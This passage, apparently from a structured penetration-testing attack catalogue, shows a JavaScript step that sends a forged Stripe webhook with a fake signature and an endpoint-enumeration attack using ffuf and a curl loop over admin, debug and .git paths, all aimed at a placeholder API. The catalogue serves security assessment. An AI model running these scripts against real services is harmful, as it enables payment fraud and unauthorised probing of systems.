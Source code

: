 ```javascript
  }
};

// Step 2: Send forged webhook
fetch('https://api.example.com/webhooks/stripe', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'stripe-signature': 'fake_signature'  // If validation is weak
  },
  body: JSON.stringify(webhookTemplate)
});

// Step 3: If successful, repeat with multiple accounts
```

#### Success Criteria
- Weak signature validation
- No replay attack prevention
- Event ID not checked for uniqueness

---

### Attack 6.2: API Endpoint Enumeration
**Attack Vector:** Unauthenticated  
**Complexity:** Low  
**Impact:** Medium  
**MITRE ATT&CK:** T1046 (Network Service Discovery)

#### Description
Discover hidden or undocumented API endpoints through automated scanning.

#### Attack Steps
```bash
# Step 1: Use automated tools
ffuf -u https://api.example.com/FUZZ \
  -w /usr/share/wordlists/api-endpoints.txt \
  -mc 200,301,302,401,403

# Step 2: Test common patterns
endpoints=(
  "/api/v1/admin"
  "/api/internal"
  "/api/debug"
  "/api/.git"
  "/api/swagger.json"
  "/api/graphql"
  "/actuator/health"
  "/metrics"
)

# Step 3: Identify authentication bypasses
for endpoint in "${endpoints[@]}"; do
  curl -s "https://api.example.com$endpoint" -o "/tmp/$endpoint.txt"
done
```

---